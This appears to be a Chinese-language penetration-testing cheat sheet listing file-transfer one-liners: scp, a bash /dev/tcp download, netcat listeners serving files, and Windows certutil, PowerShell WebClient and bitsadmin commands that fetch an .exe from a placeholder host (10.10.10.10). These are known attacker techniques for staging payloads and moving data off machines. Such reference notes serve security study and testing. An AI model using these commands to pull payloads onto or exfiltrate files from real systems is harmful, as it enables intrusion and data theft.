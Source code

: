 # 文件传输

> ### 脚本下载
> python, perl, vb, php, ruby等等

> ### SCP
> ```bash
> # 上传
> scp a.txt root@10.10.10.10:~/a.txt
> # 下载
> scp root@10.10.10.10:/home/root/a.txt ./1.txt
> ```

> ### Bash /dev/tcp
> ```bash
> # 服务端
> nc -lp 1444 < a.txt
> # 客户端下载
> bash -c 'cat < /dev/tcp/10.10.10.10/1444 > a.txt'
> ```

> ### nc
> ```bash
> cat file | nc -lp 4444
> ```

> ### certutil
> ```powershell
> certutil -urlcache -split -f http://10.10.10.10:80/a.exe
> ```

> ### powershell
> ```powershell
> powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10:1234/a.txt', 'a.exe')
> ```

> ### notepad
> notepad打开文件处输入完整URL即可成功下载  
> notepad将会获取URL的内容并展示出来  

> ### FTP
> ```
> open [servername/ip]  
> user [useraname]  
> get [filename]  
> ! 返回本地shell  
> exit 返回ftp服务器  
> ```

> ### Bitsadmin
> ```powershell
>bitsadmin /transfer jobname http://prodserver/audio.wma c:\downloads\audio.wma
> ```

> ### Wget
> ```bash
> wget http://example.com/file
> ```


